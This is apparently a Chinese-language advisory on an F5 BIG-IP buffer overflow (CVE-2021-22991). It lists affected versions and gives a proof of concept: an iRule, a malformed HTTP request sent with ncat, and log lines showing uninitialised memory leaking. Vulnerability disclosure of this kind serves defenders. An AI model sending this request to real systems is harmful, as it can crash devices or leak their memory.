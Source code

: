 # BIG-IP 缓冲区溢出漏洞 (CVE-2021-22991)

系统可能会错误地处理对虚拟服务器的请求，触发缓冲区溢出，从而导致DoS攻击。理论上可以绕过基于URL的访问控制或远程代码执行（RCE）。

影响版本：

BIG-IP (All Modules)：

* 16.0.0-16.0.1
* 15.1.0-15.1.2
* 14.1.0-14.1.3.1
* 13.1.0-13.1.3.5
* 12.1.0-12.1.5.2

PoC：

iRule：


```
when HTTP_REQUEST { 
log local0. \"normalized: [HTTP::uri -normalized]\" 
log local0. \"uri: [HTTP::uri]\" }
```

请求：

```
echo -e \"GET h://[f] HTTP/1.1\\
\\
\" | ncat --ssl 10.154.0.3 443
```

未初始化的内存直接记录到 /var/log/ltm:


```
Dec 10 09:41:32 f5-16-vm info tmm[26669]: Rule /Common/normalized <HTTP_REQUEST>: normalized: h://[aa:cf01::c00:0:1100:0]/ 
Dec 10 09:41:32 f5-16-vm info tmm[26669]: Rule /Common/normalized <HTTP_REQUEST>: uri: h://[aa]
```

ref:

* https://support.f5.com/csp/article/K56715231
* https://packetstormsecurity.com/files/161752/GS20210311143641.txt